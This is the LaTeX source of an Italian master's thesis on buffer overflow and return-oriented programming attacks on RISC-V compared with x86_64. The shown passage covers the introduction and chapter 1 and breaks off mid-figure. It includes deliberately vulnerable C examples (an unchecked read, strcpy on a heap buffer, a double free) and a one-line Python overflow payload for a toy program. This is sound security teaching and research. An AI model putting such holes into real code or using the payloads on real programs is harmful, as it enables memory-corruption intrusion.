\documentclass[11pt]{report}
\usepackage[a4paper, total={6in, 8in}]{geometry}
\usepackage[utf8]{inputenc}
\usepackage[style=numeric,backend=biber]{biblatex}
\usepackage[italian]{babel}
\usepackage{newlfont}
\usepackage{hyperref}
\usepackage{graphicx}
\usepackage{placeins}
\usepackage{minted}
\usepackage{url}
\usepackage{subfig}
\usepackage{float}
\usepackage{afterpage}
\usepackage{todonotes}
\addbibresource{tesi.bib}
\usepackage{csquotes}
\usepackage{xcolor}
\usepackage{multirow}


\newcommand{\highlight}[1]{\colorbox{yellow}{#1}}

\hypersetup{
    colorlinks,
    citecolor=black,
    filecolor=black,
    linkcolor=black,
    urlcolor=black
}

\newcommand\myemptypage{
    \null
    \thispagestyle{empty}
    \newpage
}

\setlength\parindent{0pt}
\setlength\parskip{\medskipamount}
\textwidth=450pt\oddsidemargin=0pt
\begin{document}
\begin{titlepage}
\begin{center}
{{\Large{\textsc{Alma Mater Studiorum $\cdot$ Universit\`a di
Bologna}}}} \rule[0.1cm]{15.8cm}{0.1mm}
\rule[0.5cm]{15.8cm}{0.6mm}
{\small{\bf SCUOLA DI INGEGNERIA E ARCHITETTURA\\
Corso di Laurea in Ingegneria Informatica Magistrale}}
\end{center}
\vspace{30mm}
\begin{center}
{\LARGE{\bf Attacchi Buffer Overflow}}\\
\vspace{3mm}
{\LARGE{\bf e Return Oriented Programming}}\\
\vspace{3mm}
{\LARGE{\bf in architetture RISC-V}}\\
\end{center}
\vspace{40mm}
\par
\noindent
\begin{minipage}[t]{0.47\textwidth}
{\large{\bf Relatori:\\
Chiar.mo Prof. Andrea Bartolini\\
Chiar.mo Prof. Michele Colajanni\\}}
\vspace{1cm}
\end{minipage}
\\
\begin{minipage}[t]{0.47\textwidth}
{\large{\bf Correlatori:\\
Dott. Emanuele Parisi\\}}

\end{minipage}
\hfill
\begin{minipage}[t]{0.47\textwidth}\raggedleft
{\large{\bf Presentata da:\\
Patrick Di Fazio}}
\end{minipage}
\vspace{20mm}
\begin{center}
{\large{\bf Sessione 1\\
Anno Accademico 2023-2024}}
\end{center}
\end{titlepage}



\myemptypage

\tableofcontents
\newpage

\chapter*{Abstract}
\addcontentsline{toc}{chapter}{Abstract}
Nel panorama della sicurezza informatica i primi attacchi alla memoria, comunemente conosciuti come \textit{memory corruption attacks} risalgono agli anni 80 e sono stati sfruttati per la prima volta da Robert Tappan Morris \cite{FBI} che, individuando una vulnerabilità nel codice di un applicativo Unix, è riuscito a eseguire codice arbitrario manipolando lo stack di un programma C. Questo attacco oggi è conosciuto come \textit{Buffer Overflow} ed è solo l'inizio di una serie di attacchi che sarà di fondamentale importanza per la sicurezza informatica degli anni a venire. \\
Gli attacchi di quei tempi si concentravano principalmente su sistemi UNIX e prendevano di mira le classiche architetture x86 montate su processori come Intel 8086 \cite{Intel} o Intel 8088 dotate di istruzioni a lunghezza variabile. Dato che gli attacchi vengono fatti a tempo di esecuzione e coinvolgono strettamente lo stack di esecuzione del programma, si può pensare che siano strettamente legati al tipo di architettura sottostante e dipendano dalle scelte implementative degli ingegneri che hanno progettato l'ISA. In questa tesi si analizzerà questo aspetto, chiarendo quali elementi sono dipendenti dall'architettura durante gli attacchi di Buffer Overflow e Return Oriented Programming.\\
In questa tesi ho analizzato quindi la differenza tra gli attacchi di architetture x86\_64 bit, ovvero la versione a 64 bit della tradizionale architettura x86 e gli attacchi ai binari basati sul moderno standard RISC-V, la quinta versione dell'ISA RISC, open source, con istruzioni a lunghezza fissa, moderna e governata dalla fondazione RISC-V International. Questa analisi è importante dato il grande successo che sta avendo RISC-V che in pochi anni visto il basso costo implementativo è sempre più presente in microprocessori e system on a chip di vario tipo. Al giorno d'oggi è facile trovare implementazioni di ISA RISC-V anche su sistemi embedded e macchinari automatici grazie all'alto grado di specializzazione permesso dall'ISA open source ed ai bassi consumi che è possibile raggiungere su processori che implementano questa ISA. \\
È quindi cruciale essere consapevoli delle vulnerabilità presenti nell'architettura e negli eseguibili prodotti da processori RISC-V che, pur essendo open source, lascia grande spazio all'ingegnere che deve essere in primo luogo attento al codice che lui stesso produce. \\
In questa tesi ho analizzato i tipi di attacco che è possibile riprodurre sulle due architetture, le differenze, i limiti di sicurezza e gli scenari in cui è più vantaggioso cercare di attaccare una o l'altra architettura. Ho contribuito inoltre fornendo dei codici sorgenti e delle fingerprint di eseguibili per RISC-V volutamente vulnerabili e attaccabili con Buffer Overflow e Return Oriented Programming. Queste tracce potranno essere poi fornite a dei sistemi che applicano Control Flow Integrity per studiare se minacce di questo tipo possono venire rilevate.\\
Ogni codice, artefatto e test eseguito è tracciato nelle seguenti repository:\\
\begin{itemize}
    \item \href{https://github.com/BlessedRebuS/RISCV-Attacks}{\textbf{https://github.com/BlessedRebuS/RISCV-Attacks}}
    \item \href{https://github.com/BlessedRebuS/RISCV-ROP-Testbed}{\textbf{https://github.com/BlessedRebuS/RISCV-ROP-Testbed}}
\end{itemize}
\newpage
\newpage
\newpage
\myemptypage
\chapter*{Introduzione}
\addcontentsline{toc}{section}{Introduzione}
Durante i primi anni di sviluppo del codice di Unix i programmatori cercavano di avere un codice ridotto e leggero, in modo che a runtime potesse richiedere meno risorse possibili e potesse essere ottimizzato per determinati scenari. Questo è causato dal fatto che in quegli anni le risorse erano limitate rispetto ai calcolatori di oggi e risparmiare anche pochi byte di memoria era cruciale al funzionamento del codice su un determinato processore. La tendenza è quella di ridurre al minimo i controlli, specie quelli di sicurezza, perché vengono considerati come ``overhead" e se ripetuti ad ogni ciclo di esecuzione, portano via preziose risorse come memoria e cicli di clock che potrebbero essere utilizzate per fare più calcoli e velocizzare l'esecuzione del programma. \\
\newline
Avere un numero ridotto di risorse è anche ciò che ha portato a sviluppare un'architettura come x86 a istruzioni variabili. Questo vuol dire che le istruzioni che devono essere eseguite sulla CPU sono variabili e solo della dimensione necessaria. In queto modo si possono risparmiare byte sullo stack e memoria durante l'esecuzione del programma. Questa implementazione porta con sé anche lati negativi e complica lo sviluppo dell'ISA che tende ad essere estesa più difficilmente avendo istruzioni di lunghezza diversa e non standardizzata. \\
\newline
Negli anni successivi questa architettura che è stata la base della maggioranza di processori sviluppati fino ad oggi, è stata ampliata all'esigenza, aggiungendo istruzioni, operandi e funzionalità. Nella pratica si tendeva ad aggiungere funzionalità sempre più complesse e che servivano a risolvere problemi specifici nell'architettura. Questa scelta è data anche dal fatto che aggiungere istruzioni nuove sarebbe stato meno costoso di implementare una nuova versione dell'ISA. Solo a causa di limiti fisici di memoria si è scelto di estendere l'architettura raddoppiando la lunghezza massima delle istruzioni e dei bit di indirizzamento. Infatti in un sistema che lavora a 32 bit è possibile indirizzare al massimo 4GB di indirizzi, che sarebbero quindi il limite massimo di memoria installabile in un sistema. Questo causerebbe un collo di bottiglia in caso si voglia estenedere verticalmente la capacità di calcolo di un calcolatore. Raddoppiando il numero di bit si può avere un limite teorico di 16 milioni di TB di spazio di indirizzi. L'esigenza di avere più indirizzi ha quindi fatto nascere la nuova architettura x86\_64 che è la base dei calcolatori odierni e si può trovare in processori di computer fissi, portatili e server. \\
\newline
Questo tipo di architettura è chiamata CISC (Complex Instruction Set Computer) ed è spesso paragonata alle architetture RISC (Reduced Instruction Set Computer) che offrono meno istruzioni, più semplici e di lunghezza fissa.\\
\newline
Nella figura \ref{fig:x86_64arch} è presente uno schema semplificato di una architettura x86\_64 che evidenzia le parti principali. Di questa porremo l'attenzione sui principali registri come RIP (Instruction Pointer Register) e sui registri a 64 bit.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp] 
    \centering
    
\includegraphics[scale=0.8]{images/x86-64-arch.png}
    \caption{Registri dell' architettura x86}
    \label{fig:x86_64arch}
\end{figure}
\FloatBarrier
\vspace{1cm}
Nelle architetture di tipo RISC abbiamo invece dei set di istruzioni ridotte, quindi meno istruzioni. Le architetture RISC anche per questa semplicità sono più facili da implementare. Oggi abbiamo ampio utilizzo di questo tipo di processori in dispositivi non-desktop, tranne pochi casi rari come i nuovi computer Apple Silicon \cite{Apple} di Apple. In genere, difatti, abbiamo processori RISC in dispositivi ``constraint" (ovvero con disponibilità poche risorse) come dispositivi IOT, Smartphone, sistemi embedded e system on a chip. Avendo un ISA open source è infatti possibile implementare l'architettura del calcolatore senza costi aggiuntivi e essendo facilmente implementabile è possibile creare microprocessori semplificati basati su queste architetture. \\
Nella figura sottostante è rappresentata una pipeline RISC-V a 5 stadi. È evidente la semplicità di un'architettura del genere, avendo un numero così ridotto di step (\textit{Fetch, ID, Execute, Memory e Write Back}). \\
Nonostante la semplicità implementativa, permette comunque di eseguire tutte le istruzioni che eseguirebbe un'architettura più complessa ed è completamente parallelizzabile.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp] 
    \centering
    
\includegraphics[width=1\linewidth]{images/risc-v-pipeline.png}
    \caption{RISC-V Pipeline}
\end{figure}
\vspace{1cm}
Date queste premesse, è chiaro che lo studio delle vulnerabilità e dei potenziali attacchi degli eseguibili prodotti da architetture moderne come quelle RISC è importante in un'ottica di hardening dell'infrastruttura. Lo studio delle path di exploit di queste architetture aiuta anche per capire quali sono i potenziali vettori di attacco che potrebbero esistere e che gli attaccanti potrebbero quindi sfruttare per manomettere eventuali sistemi ``constraint" basati su ISA RISC-V. \\
\newline
In questa tesi si analizzeranno le differenze tra le architetture per quanto riguarda gli eseguibili prodotti, le differenze di codice macchina, e si metterà a paragone anche la stessa tipologia di attacco sui due ambienti diversi, evidenziando l'efficacia in uno e nell'altro e le possibili mitigazioni.
\subsection*{Contributi}
\addcontentsline{toc}{subsection}{Contributi}
Il mio progetto si suddivide in due sezioni: una parte in cui verranno studiati attacchi alla memoria e una parte di analisi di attacchi side channel.\\
\newline
Nella prima sezione ho studiato gli attacchi Buffer Overflow e Return Oriented Programming su ISA RISC-V, paragonandoli agli stessi attacchi ma su architetture come x86 e x86\_64, evidenziando le differenze in termini di compilato, registri, codice macchina, indirizzi e difficoltà riscontrate.\\
In particolare, ho evidenziato un attacco basato su ``Data Oriented Programming" eseguito su RISC-V, che nello scenario in cui lo ho presentato, permette di manipolare il codice di uscita della systemcall \textit{exit()} senza utilizzare shellcoding o chaining di gadget, ma solo manipolando dati salvati nei registri dello stack.\\
Fornirò inoltre i compilati prodotti, in modo da poter essere analizzati in seguito da meccanismi di Control Flow Integrity. A scopo di test ho completato anche il porting dei programmi generati su piattaforma Cheshire.\\
Per concludere ho eseguito delle prove di generazione di ``ropchain" usando gadget estratti dal webserver NGINX compilato per RISC-V, per costruire un attacco Return Oriented Programming fornendosi di LLM.\\
\newline
Nella seconda sezione ho effettuato invece delle ``Proof of concept" di attacchi side channel e ho evidenziato in quali delle architetture testate sono efficaci.\\
\newline
Ogni codice, artefatto e test eseguito è tracciato nelle seguenti repository:\\
\begin{itemize}
    \item \href{https://github.com/BlessedRebuS/RISCV-Attacks}{\textbf{https://github.com/BlessedRebuS/RISCV-Attacks}}
    \item \href{https://github.com/BlessedRebuS/RISCV-ROP-Testbed}{\textbf{https://github.com/BlessedRebuS/RISCV-ROP-Testbed}}
\end{itemize}
\subsection*{Descrizione dei capitoli}
\addcontentsline{toc}{subsection}{Descrizione dei capitoli}
La tesi è suddivisa nelle seguenti macrosezioni. Nel \textbf{capitolo 1} vengono introdotte le tipologie di attacco alla memoria e vengono evidenziate le principali differenze tra attacchi su ISA RISC-V e x86 / x86\_64. Nel \textbf{capitolo 2} si elencano le tecnologie utilizzate e gli ambienti usati come ``testbed" di attacco. Nel \textbf{capitolo 3} vengono evidenziate le differenze tra le architetture in modo più dettagliato, con particolare attenzione sul linguaggio macchina e sui decompilati di alcuni programmi vulnerabili. Nel \textbf{capitolo 4} è presente la sezione in cui si elencano tutti i tipi di attacco effettuati, divisa in altre due sottosezioni: attacchi alla memoria e attacchi side channel. Nel \textbf{capitolo 5} sono esposte le conclusioni ed è presente la struttura delle repository in cui è possibile trovare i sorgenti del lavoro svolto.
\newpage
\newpage


\chapter*{Capitolo 1}
\addcontentsline{toc}{chapter}{Capitolo 1}

\section*{Tipologia di attacchi alla memoria}
\addcontentsline{toc}{section}{Tipologia di attacchi alla memoria}

Nel panorama della sicurezza informatica gli attacchi alla memoria sono i primi tipi di attacchi usati per manomettere sistemi operativi, come è successo per le prime versioni di Unix \cite{Radware}. Al tempo e come oggi vengono utilizzati per riuscire a raggiungere condizioni di maggior privilegio nel sistema (privilege escalation \cite{Cynet}), per leggere aree di memoria non accessibili normalmente e molto altro.
Gli attacchi alla memoria si eseguono a ``runtime", ovvero a tempo di esecuzione, a causa di controlli mancanti lato codice. Il programmatore in questi casi non inserisce dei controlli su elementi che vengono salvati sullo stack, come ad esempio il controllo sulla lunghezza delle stringhe salvate nei buffer. L''attaccante sarà in grado si sovrascrivere interamente il buffer e immettere dati e quindi codice arbitrario nello stack, manipolando il flusso di esecuzione del programma.

\subsection*{Buffer Overflow}
\addcontentsline{toc}{subsection}{Buffer Overflow}
Un attacco Buffer Overflow si verifica nel momento in cui all'interno di un buffer, che è rappresentato in memoria come un blocco contiguo di dati, l'attaccante riesce a inserire più caratteri di quelli previsti dal programmatore.
Durante l'inserimeto di input da parte dell'utente, si può verificare infatti che il programmatore abbia omesso il controllo sulla lunghezza delle stringhe o dei limiti che evitano di registrare i caratteri quando superano un limite numerico prefissato. 
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/buffer-overflow-diagram.png}
    \caption{Stack durante il Buffer Overflow}
\end{figure}
\FloatBarrier
A causa del fatto che i dati vengono salvati in maniera contigua sullo stack, è possibile sovrascrivere il dato fino ad arrivare a sovrascrivere delle istruzioni che partecipano all'esecuzione del programma in quel momento. Proprio grazie al fatto che l'attacco viene eseguito a runtime, è possibile accedere direttamente alle istruzioni che sono in memoria. \\
\newline
Un buffer overflow può dirottare l'esecuzione del programma in vari modi. È possibile ad esempio mandare il programma in crash e quindi interromperne totalmente l'esecuzione. Questo può essere particolarmente grave in caso si utilizzino istanze di webserver single thread che verrebbero terminate dal crash del programma. Gli attacchi Buffer Overflow mirano però di solito a scrivere in memoria per eseguire codice arbitrario e quindi istruzioni macchina per poi arrivare ad eseguire veri e propri comandi di sistema operativo. \\
\newline
Questa tipologia di attacchi sfrutta tipicamente le debolezze di programmi scritti in linguaggi come C che non gestiscono automaticamente i limiti di memoria e lasciano al programmatore il compito di ``scrivere codice sicuro" implementando opportuni controlli e sanificazioni dell' input. \\
\newline
I tipi di Buffer Overflow sono due: Stack Based Buffer Overflow e Heap Based Buffer Overflow

\subsubsection*{Stack Based Buffer Overflow}
\addcontentsline{toc}{subsection}{Stack Based Buffer Overflow}

Questa è la forma più comune di attacco e funziona in maniera analoga a quanto già descritto in precedenza. L'attaccante invia dati contenenti codice dannoso ad un’applicazione che li memorizza in uno stack buffer arrivando a compiere azioni dannose come ad esempio sovrascrivere l'indirizzo di ritorno di una funzione.

\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/buffer-overflow-example.png}
    \caption{Stack riempito durante il Buffer Overflow} \cite{Medium}
\end{figure}
\FloatBarrier

Senza scendere nello specifico dell'architettura, ora analizziamo un esempio di un programma C vulnerabile ad un attacco stack based buffer overflow \cite{CTF101}. Il seguente codice definisce un valore per la variabile secret, crea un buffer di 64 caratteri e tramite la funzione \textit{read()} legge dal file descriptor numero 0, ovvero standard input, un numero  ``SIZE" di byte immagazzinandoli nel buffer puntato da name.
In questo caso la funzione non controlla la lunghezza del dato inserito dall'utente da input e quindi non definisce la lunghezza che può avere il dato una volta salvato in memoria. \\
È poi presente un check che definisce quale è il valore che deve avere la variabile secret per ``sbloccare" la \textit{puts()} che restituisce la password.  \\
Un attaccante può quindi riempire i primi 64 byte del buffer ``name" e sovrascrivere la variabile secret con dei dati a scelta. In questo caso per passare il controllo sul secret, si dovrà inserire nello stack quello che è richiesto dal check. 

\begin{minted}{c}
#include <stdio.h>

int main() {
    int SIZE = 255;
    int secret = 0xdeadbeef;
    char name[64] = {0};
    read(0, name, SIZE);
    if (secret == 0x1337) {
        puts("Password: P455W0RD");
    } else {
        puts("Next try...");
    }
}

\end{minted}

Come mostrato nello schema sottostante, riempendo i primi \textbf{104 byte} possiamo vedere come la variabile secret salvata nello stack e precedentemente definita assume come valore \textbf{0xdead4141}, ovvero parte del valore precedentemente assegnato e due byte ``A" che in esadecimale vengono rappresentati con \textbf{0x41}. 

\begin{minted}{c}
        0xffff006c: 0xf1f1f1f1  // Saved EIP
        0xffff0068: 0xefef0100  // Saved EBP
        0xffff0064: 0xdead4141  // secret
...
...
...
        0xffff0004: 0x41414141
ESP ->  0xffff0000: 0x41414141  // name
\end{minted}

Un attaccante può quindi inserire nello stack 100 volte la lettera A e aggiungere al vettore in esadecimale la stringa richiesta. Dato che la CPU è little-endian \cite{Geeksforgeeks}, i valori passati sullo stack verranno letti inversamente e quindi l'attaccante dovrà inserire il valore richiesto dal check al contrario. Un payload funzionante per attaccare il programma sarà il seguente.

\begin{minted}{bash}
python -c "print ('A'*100 + '\x31\x13\x00\x00')"
\end{minted}

Grazie a questo exploit, a tempo di esecuzione il programma entrerà nella funzione \textit{puts()} che restituirà la password.  \\
\newline
È stato mostrato un esempio di come sfruttare una Buffer Overflow, ma sono presenti molti altri modi per utilizzare la capacità di uscire da un buffer, come ad esempio sovrascrivere l'indirizzo di ritorno e navigare tra le funzioni caricate nel programma. Questo argomento verrà analizzato più in seguito nella tesi.

\subsubsection*{Heap Based Buffer Overflow}
\addcontentsline{toc}{subsection}{Heap Based Buffer Overflow}

Questo tipo di attacco è un Buffer Overflow basato sulla memoria heap \cite{HeapMemory}.
La memoria heap è gestita in differente rispetto al normale Stack. La prima differenza è che le due memorie ``crescono" in direzioni opposte, ovvero lo stack parte dagli indirizzi alti e cresce verso il basso (in genere e per quanto riguarda architetture CISC) e l'heap inversamente, cresce da indirizzi bassi e va verso l'alto.

\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.3\linewidth]{images/stack-and-heap.png}
    \caption{Crescita Stack e heap durante l'esecuzione di un programma}
\end{figure}
\FloatBarrier
\vspace{1cm}

In questo tipo di memoria, è possibile allocare lo spazio in maniera autonoma ed esplicita. Si riesce così a bloccare gli spazi di memoria che vengono allocati a delle variabili definite dal programmatore avendo una gestione migliore dei dati. \\
\newline
In C è possibile sfruttare l'heap quando si fanno delle memory allocation o ``\textit{malloc()}" in cui si specifica il tipo di dato e la grandezza in byte della memoria che occuperà. Una volta che il dato è usato il programmatore può decidere di revocarlo e toglierlo dallo stack. In linguaggi più ad alto livello come Java, questo procedimento viene gestito dal garbage collector. \\
\newline
Quando si effettuano attacchi all'heap, è quindi possibile corrompere strutture dati e analogamente agli attacchi sullo stack, eseguire codice arbitrario. \\
Generalmente un attacco basato su heap è più difficile da eseguire rispetto ad un attacco basato su un buffer overflow dello stack. Questo perché è meno probabile trovare istruzioni e pezzi di codice vulnerabilie che usano la heap (come le \textit{malloc()} e le \textit{free()}) rispetto a istruzioni che salvano dati sullo stack.
Di seguito un esempio di codice C vulnerabile ad un attacco di Buffer Overflow sull'heap.

\begin{minted}[escapeinside=||,mathescape=true]{c}
#define BUFSIZE 256
int main(int argc, char **argv) {
char *buf;
buf = (char *)malloc(sizeof(char)*BUFSIZE);
|\highlight{strcpy(buf, argv[1]);}|
}
\end{minted}

La vulnerabilità presente in questo \cite{MitreHeap} caso è la funzione \textit{strcpy()} che copia il contenuto di \textit{argv[1]} nel buffer \textit{buf}, ma non controlla la dimensione della stringa copiata. \\
Questa è una nota vulnerabilità che appare anche a tempo di compilazione, dato che strcpy() è una funzione ormai deprecata. Non essendoci controlli sulla stringa copiata, è possibile come già visto in precedenza sovrascrivere dati dello stack fino ad arrivare a sovrascrivere aree sensibili come l'indirizzo di ritorno delle funzioni. \\
\newline

\subsubsection*{Caso particolare: Double Free}
\addcontentsline{toc}{subsubsection}{Caso particolare: Double Free}

Un attacco particolare che è possibile eseguire solamente nella memoria heap è quello comunemente chiamato ``Double Free". \\
Un attacco del genere può sembrare abbastanza restrittivo dato che a prima vista la superficie di attacco è molto ridotta, anche se in realtà è stato la causa di molti ``Zero Day" in software di uso comune come ad esempio la \textbf{CVE-2019-1193} \cite{TrendMicroWhatsapp} oppure la \textbf{CVE-2024-27099} che portano a Remote Code Execution, ovvero esecuzione di codice arbitrario rispettivamente su Smartphone Android e dispositivi IOT. \\
\newline
Questo sottostante è l'esempio di un codice vulnerabile \cite{HackTricksDoubleFree} a causa di una double \textit{free()}. La vulnerabilità avviene nel momento in cui viene eseguita più volte una \textit{free()} sulla stessa area allocata. Normalmente non si potrebbe utilizzare due volte di seguito questa funzione sulla stessa area perché l'allocatore restituirebbe un errore e manderebbe in crash il programma, ma avendo un' altra variabile posta tra le due \textit{free()}, è possibile fare il bypass di questa situazione.
\begin{minted}[escapeinside=||,mathescape=true]{c}
#include <stdio.h>
#include <stdlib.h>

int main() {
// Allocate memory for three chunks
char *a = (char *)malloc(10);
char *b = (char *)malloc(10);
char *c = (char *)malloc(10);

free(a);
|\highlight{free(b);}|
free(c);
|\highlight{free(b);}|

char *h1 = (char *)malloc(10);
char *i1 = (char *)malloc(10);
char *i2 = (char *)malloc(10);

return 0;
}
\end{minted}
In questo caso il flusso del programma sarà il seguente \\
\begin{minted}{c}
FREE A -> FREE B -> FREE C -> FREE B
\end{minted}

A causa della doppia \textit{free()} sulla variabile B, l'allocatore poi può riallocare la stessa area di memoria in seguito ad una \textit{malloc()} per due puntatori diversi. Questo farà quindi puntare due puntatori distinti alla stessa area di memoria e genererà una grave falla di sicurezza. Se un attaccante è in grado di controllare uno di quei puntatori, può quindi modificare il contenuto di quella memoria in maniera arbitraria. \\
\newline
Stampando gli indirizzi referenziati dal puntatore allocato su C e B avremo infatti lo stesso risultato: è stata allocata la stessa area di memoria.


\begin{minted}{c}
c: 0xaaab0f0c23a0
b: 0xaaab0f0c23a0
\end{minted}

\newpage

Nella figura \ref{fig:heap} si può vedere un esempio di heap overflow. Possiamo evidenziare il payload di dati che ``cresce" nell' heap in maniera opposta ai dati che crescono nello stack.

\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
